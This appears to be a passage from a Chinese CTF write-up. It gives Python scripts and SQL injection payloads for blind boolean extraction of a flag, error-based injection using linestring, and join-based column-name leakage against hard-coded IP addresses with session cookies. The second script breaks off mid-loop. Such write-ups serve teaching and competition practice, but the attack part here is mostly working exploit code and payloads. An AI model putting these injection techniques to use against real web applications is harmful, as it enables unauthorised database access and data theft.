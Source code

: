 ```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
#by:CodeMonster
import re
import requests as r
payload=list("ABCDEFGHIJKLMNOPQRSTUVWXYZ@1234567890qwertyuiopasdfghjklzxcvbnm_{}.!,")
data=''
flag=''
for s in range (0,50):
	for i in range (1,50):
		for p in payload:
			header={"Cookie": "PHPSESSID=b1kkq3ohuavj53kkl4u29dg914; token=SUIEVxUzVHYpEQEOFFIiXQ==;"}
			url="http://111.231.111.54/admin.php?id=1&title="
			#url+="%1$%27%20or%20(ascii(mid((select%20group_concat(column_NAME)%20from%20information_schema.COLUMNS%20where%20TABLE_SCHEMA=database()%20and%20table_name=0x6b6579),{0},1))={1})%23".format(i,ord(p))
			url+="%1$%27%20or%20(ascii(mid((select%20f14g%20from%20web1.key),{0},1))={1})%23".format(i,ord(p))
			#print url
			r1=r.get(url,headers=header)
			#print r1.text
			if "myblog" in r1.text:
				flag+=p
				print i,flag
				break
print flag
```

# "他们"有什么秘密呢?
一个简单到不能再简单的......
http://182.254.246.93/

index.php
```
1.entrance.php
2.There is no need to scan and brute force!
3.Hacking for fun!
```

## 0x00各种注入骚操作得到下一关文件名
entrance.php存在报错注入  
构造`1 and linestring(pro_id)`得到表名`product_2017ctf`和数据库名`youcanneverfindme17`   
通过join注入得到字段名`d067a0fa9dc61a6e`
```
pro_id=1 and (select * from (select * from product_2017ctf as a join product_2017ctf as b using(pro_id,pro_name,owner)) as c);
```
但是这个字段名被ban了，只好通过order by来得到d067a0fa9dc61a6e字段的内容，脚本如下
```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
#by:CodeMonster
import requests
r=requests.session()
url="http://182.254.246.93/entrance.php?"
l=".0123456789abcdefghijklmnopqrstuvwxyz"
k=""
sec=""
for i in range(36):
	for j in range(len(l)):
		payload=sec+l[j]
```